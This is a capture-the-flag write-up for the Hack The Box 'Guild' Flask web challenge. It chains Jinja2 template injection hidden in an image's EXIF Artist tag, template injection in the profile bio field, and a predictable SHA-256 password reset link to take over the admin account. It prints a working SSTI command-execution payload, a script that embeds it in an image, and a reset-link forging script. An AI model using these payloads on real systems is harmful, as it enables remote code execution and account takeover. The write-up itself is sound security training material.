

# Hack The Box CTF Writeup - Guild


## Challenge Description
The Guild challenge is a Flask-based web application with features like user verification, password reset, and user profiles. The goal is to exploit vulnerabilities such as Server-Side Template Injection (SSTI) in the file upload functionality, a weak password reset mechanism, and insufficient input validation to escalate privileges and gain access to the flag.

## Vulnerabilities and Exploitation
### 1. Server-Side Template Injection (SSTI) in File Upload
The file upload functionality allows users to upload verification documents. These documents are processed and verified by an admin, but EXIF metadata embedded in the image files is not properly sanitized. The vulnerability arises from the use of Jinja2 template rendering in the server-side code, which allows arbitrary Python code execution via Server-Side Template Injection (SSTI).

Exploit Overview:
The EXIF "Artist" tag is processed and passed through render_template_string() which can evaluate Jinja2 expressions.
By injecting a malicious Jinja2 payload into the Artist EXIF tag, we can execute arbitrary Python code on the server.
Malicious Payload for EXIF Artist Tag:
python
```
b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}'
```
This payload tries to execute cat flag.txt on the server, which returns the content of the flag.txt file.

Steps to Exploit:
Craft Malicious Image with Payload: Use a Python script to embed the malicious payload in the Artist tag of the image’s EXIF metadata.

```python
from PIL import Image
import piexif

# Create a simple image
img = Image.new('RGB', (100, 100), color='red')

# Define EXIF data with malicious payload in the "Artist" field
exif_dict = {
    "0th": {
        0x013B: b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}',
    }
}

# Convert EXIF dictionary to bytes
exif_bytes = piexif.dump(exif_dict)

# Save the image with EXIF data
img.save("exploit.jpg", exif=exif_bytes)
```
Upload the Malicious Image: Upload the crafted image through the /verification endpoint.

Admin Verification:

The admin will verify the uploaded image and the malicious payload will be executed on the server, revealing the flag.

### 2. Insecure Input Validation in Bio Field
The bio field, which allows users to update their profile bio, does not properly validate inputs. Although there is a blacklist of certain dangerous characters, the blacklist-based approach can be easily bypassed. This flaw allows an attacker to inject malicious code into their bio, which could potentially lead to XSS or RCE.

Exploit Overview:
The bio input is not sanitized, and users can input harmful scripts or payloads that may be executed on the server.
Example Payload:
The attacker could input the following XSS payload in their bio:

```html
<td>{{User.query.filter_by(username="admin").first().email}}</td>
```
This would be executed when the admin views the user's profile or when the user views their own profile, revealing the vulnerability.




### 3. Weak Password Reset Mechanism
The password reset functionality relies on SHA-256 hashes of email addresses to generate password reset links. This mechanism is vulnerable because the hash of the email is predictable and does not have any additional security, such as time-based expiration or randomness.

Exploit Overview:
We can generate the password reset link for any user, including the admin, by simply hashing their email address.
By intercepting the reset link, we can change the password of any user, including the admin.
Steps to Exploit:
Generate Reset Link: Using the admin's email, we generate the password reset link by hashing the email address with SHA-256.

```python
import hashlib

# Admin's email
email = "admin@guild.com"

# Generate SHA-256 hash of the email
hashed = hashlib.sha256(email.encode()).hexdigest()

# Construct the reset link
reset_link = f"http://<ip>:<port>/changepasswd/{hashed}"

print("Reset Link:", reset_link)
```

### Visit the reset link, set a new password, and gain access to the admin account.
### Then verify the uploaded image


###Steps to Exploit:
1. Craft a payload image and upload
2. Inject script in bio to reveal admin's email
3. forgot password using admin's email
4. Generate the password reset link using the admin's email
5. Reset the admin password using the generated password reset link.
6. Log in as admin and verify the malicious image.
7. The injected payload in the EXIF "Artist" tag will execute and display the flag.
